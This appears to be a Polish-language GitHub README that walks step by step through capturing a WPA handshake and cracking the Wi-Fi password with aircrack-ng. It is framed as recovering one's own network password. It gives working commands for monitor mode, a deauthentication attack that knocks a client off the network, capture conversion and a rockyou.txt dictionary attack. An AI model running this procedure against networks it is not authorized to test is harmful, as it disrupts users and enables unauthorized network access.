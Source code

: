 # FILM

[![Watch the video](https://img.youtube.com/vi/p_kWb7se5cQ/maxresdefault.jpg)](https://youtu.be/p_kWb7se5cQ)

# TUTORIAL

1) Wlacz nasluchiwanie przez karte sieciowa

``` airmon-ng start wlan0  ```

Mamy teraz nowa nazwe karty:

``` wlan0mon ```

2) Nasluchuj sieci w poblizu i znajdz swoja:

``` airodump-ng wlan0mon ```

3) Gdy zobaczysz swoja siec zastopuj nasluchiwanie i skopiuj bssid, oraz
kanal:

``` airodump-ng wlan0mon --bssid MAC -c CHANNEL [np. 6] ```

4) Gdy juz zobaczysz ze nasluchuje tylko te siec i wszystko dziala
mozemy przystapic do dzialania.

Zastopuj i dopisz do komendy:

``` -w NAZWA ```

Spowoduje to wypisywanie do plikow o danej nazwie wszystkiego co sie dzieje podczas
nasluchiwania. Przyda nam sie to do przejecia pliku .cap

5) Szukamy MAC'ow aktualnie podlaczonych urzadzen do routera. Kopiujemy go i bssid do
nastepnej komendy.

6) Majac wlaczone nasluchwanie wykonujemy:

```
 aireplay-ng -a BSSID_MAC -c CLIENT_MAC --deauth 40 wlan0mon
```

Zostana wyslane do klienta pakiety ktore rozlacza go na chwile z sieci,
aby musial znow sie do niej automatycznie podlaczyc.

7) Po chwili zatrzymujemy atak i patrzymy czy w poprzedniej konsoli gdzie
nasluchiwalismy pokazala sie wiadomosc:

``` WPA handshake ```

Jesli tak wylaczamy nasluchiwanie. Jesli nie powtarzamy.

8) Karta w trybie nasluchwania juz nam sie nie przyda wiec mozemy ja wylaczyc i 
wrocic do poprzedniej wersji:

``` airmon-ng stop wlan0mon ```

Teraz mozesz ponownie korzystac z internetu na komputerze ;) 

9) Przystepujemy do zmiany pliku .cap na --> .hccapx

W tym celu uzyjemy narzedzia aircrack. Mozesz lamac to innymi ktore maja 
taka opcje np. hashcat'em.

Opcja:

``` -j ```

Pomoze nam w zamianie.

10) Wpisujemy:

``` aircrack-ng -j OUTPUT_NAME NAZWA.cap ```

Po chwili powinnien pokazac ci sie plik o nazwie ktora podales po parametrze
-j.

11) Podchodzimy do odzyskiwania hasla. W tym celu bedziemy potrzebowac jakis
slownik mozemy uzyc jakiegos z np. systemu kali.

``` aircrack-ng NAZWA.hccapx -w /usr/share/wordlists/rockyou.txt [slownik] ```

Jesli w slowniku natrafi na nasze haslo pokaze nam to.

12) Powodzenia w odzyskiwaniu!
